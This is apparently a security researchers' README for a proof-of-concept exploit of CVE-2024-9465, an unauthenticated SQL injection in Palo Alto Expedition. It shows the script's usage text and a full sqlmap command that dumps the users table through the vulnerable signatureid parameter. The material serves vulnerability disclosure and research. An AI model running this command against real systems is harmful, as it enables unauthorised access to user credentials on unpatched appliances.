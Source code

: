 # CVE-2024-9465: Palo Alto Expedition Unauthenticated SQL Injection
Proof of concept to exploit CVE-2024-9465 on vulnerable devices.

## Blog Post
Root cause and indicators of compromise here:
[https://www.horizon3.ai/attack-research/palo-alto-expedition-from-n-day-to-full-compromise/](https://www.horizon3.ai/attack-research/palo-alto-expedition-from-n-day-to-full-compromise/)

## Usage
```
% python3 CVE-2024-9465.py -h
usage: CVE-2024-9465.py [-h] -u URL

options:
  -h, --help         show this help message and exit
  -u URL, --url URL  The URL of the target
```

## SQLMap Dump Table
```
python3 sqlmap.py -u "https://<ip_address>/bin/configurations/parsers/Checkpoint/CHECKPOINT.php?action=im port&type=test&project=pandbRBAC&signatureid=1" -p signatureid -T users --dump
```

## Follow the Horizon3.ai Attack Team on Twitter for the latest security research:
*  [Horizon3 Attack Team](https://twitter.com/Horizon3Attack)
*  [James Horseman](https://twitter.com/JamesHorseman2)
*  [Zach Hanley](https://twitter.com/hacks_zach)

## Disclaimer
This software has been created purely for the purposes of academic research and for the development of effective defensive techniques, and is not intended to be used to attack systems except where explicitly authorized. Project maintainers are not responsible or liable for misuse of the software. Use responsibly.

